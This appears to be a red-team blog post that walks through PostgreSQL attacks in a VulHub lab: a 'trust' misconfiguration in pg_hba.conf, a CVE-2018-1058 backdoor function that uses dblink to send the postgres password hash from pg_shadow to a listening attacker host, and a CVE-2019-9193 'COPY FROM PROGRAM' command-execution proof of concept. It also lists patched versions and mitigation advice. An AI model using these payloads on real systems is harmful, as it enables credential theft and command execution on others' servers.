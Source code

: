 ```yaml
---
title: PostgreSQL From no authorization to high privilege command execution
description: Cause of PostgreSQL Improper Configuration Vulnerability: As a matter of fact, it is mainly caused by improper administrator configuration.
categories:
 - RedTeam Skill
tags:
 - PostgreSQL
 - Command execution
---
```



## *No. 1 Introduction to PostgreSQL*

PostgreSQL (also known as postgres) is a free object, it's a relational database server (database management system) distributed under a flexible BSD license. It provides an alternative to other open source database systems, such as MySQL and Firebird, and proprietary systems, such as **Oracle, Sybase, IBM’s DB2**, and **Microsoft SQL Server**.

PostgreSQL is as popular as MySQL, and the database of msf is PostgreSQL. However, if the administrator does not configure PostgreSQL correctly, **it will cause any user to access PostgreSQL database without a password.**

## *No.2 PostgreSQL Unauthorized Vulnerability*

#### Vulnerability Cause

Cause of PostgreSQL Improper Configuration Vulnerability: As a matter of fact, it is mainly caused by improper administrator configuration. PostgreSQL configuration file is `/var/lib/pgsql/9. 2/data/pg_hba. conf`. If the administrator does not properly configure the trusted host (as shown in the following figure), any user can access PostgreSQL database without password.

Here is a brief introduction to the following `pg_hba. conf` configuration file. Excluding the comments, the main effective configuration content is the red circle in the above figure. Explain the meaning of this line:

![image.png]({{site.url}}/upload/2021-02-22-PostgreSQL-From-no-authorization-to-high-privilege-command-execution/ko4Bn25tjQdahWz.png)

```plsql
host    all     all     0.0.0.0/0       trust
```

Host indicates the matching type, the first `all` indicates any database, the second `all` indicates the access of any database user, `0.0. 0.0/0` indicates that any IP address accesses this database service, and the last `trust` indicates password-free login for hosts that meet the conditions.

**The above configuration will result in allowing any source IP host, using any database account, and accessing any database without password, which will directly lead to the disclosure of all data in the database.**

## *No.3 PostgreSQL Authorization Vulnerability*

#### （CVE-2018-1058）

Build a vulnerability platform through VulHub and log in to the data platform to obtain the current session user.

Postgres provides the ability to customize functions! We create the following function:

```plsql
CREATE FUNCTION public.array_to_string(anyarray,text) RETURNS TEXT AS $$
    select dblink_connect((select 'hostaddr=192.168.8.10 port=7777 user=postgres password=chybeta sslmode=disable dbname='||(SELECT passwd FROM pg_shadow WHERE usename='postgres')));
    SELECT pg_catalog.array_to_string($1,$2);
$$ LANGUAGE SQL VOLATILE;
```

![image.png]({{site.url}}/upload/2021-02-22-PostgreSQL-From-no-authorization-to-high-privilege-command-execution/ph7YvVmWn4AEcsd.png)

Then listen to `1**.***.*.**`port 7777 on , waiting for the superuser to trigger the “backdoor” we left behind.

Execute the `pg_dump` command as root:

```plsql
docker-compose exec postgres pg_dump -U postgres -f evil.bak vulhub
```

Export the contents of the VulHub database.

While executing the above command, the “backdoor” has been triggered, and the password encrypted by the administrator MD5 has been received on the `1**.***.*.**` machine:

![image.png]({{site.url}}/upload/2021-02-22-PostgreSQL-From-no-authorization-to-high-privilege-command-execution/7HgsyiMfbtWDwGF.png)

#### Vulnerability fixes

The following version fixes this breakthrough:

```plsql
PostgreSQL PostgreSQL 9.6.8
PostgreSQL PostgreSQL 9.5.12
PostgreSQL PostgreSQL 9.4.17
PostgreSQL PostgreSQL 9.3.22
```

## *No.4 PostgreSQL High Privilege Command Execution Vulnerability*

#### (CVE-2019-9193）

#### Affected Version

PostgreSQL 9.3 to 11.2

In versions 9.3 through 11, there is a “feature” that can be used by administrators or users with “COPY TO/FROM PROGRAM” privileges to execute arbitrary commands.

First connect to postgres and execute POC:

```plsql
DROP TABLE IF EXISTS cmd_exec;

CREATE TABLE cmd_exec(cmd_output text);

COPY cmd_exec FROM PROGRAM 'id';

SELECT * FROM cmd_exec;
```

![image.png]({{site.url}}/upload/2021-02-22-PostgreSQL-From-no-authorization-to-high-privilege-command-execution/GiU5qRpJwtW9ATC.png)

## *No.5 Solution Suggestions*

The roles of `pg_read_server_files, pg_write_server_files, and pg_execute_server_program` involve reading and writing database server files, and have relatively large permissions. Careful consideration should be given when assigning the permissions of this role to database users.

## *No.6 Copyright Notice*

Any direct or indirect consequences and losses caused by the dissemination and utilization of the information provided in this article shall be borne by the user himself, and Bounty Team and the author of this article shall not bear any responsibility for this. Bounty Team has the right to modify and interpret this article. If you want to reprint or disseminate this article, you must ensure the integrity of this article, including all contents such as copyright notice. Without permission from Bounty Team, the content of this article shall not be arbitrarily modified, increased or decreased, and it shall not be used for commercial purposes in any way.

## *No.7 Author*

> york@Bounty Team - DBAPPSecurity
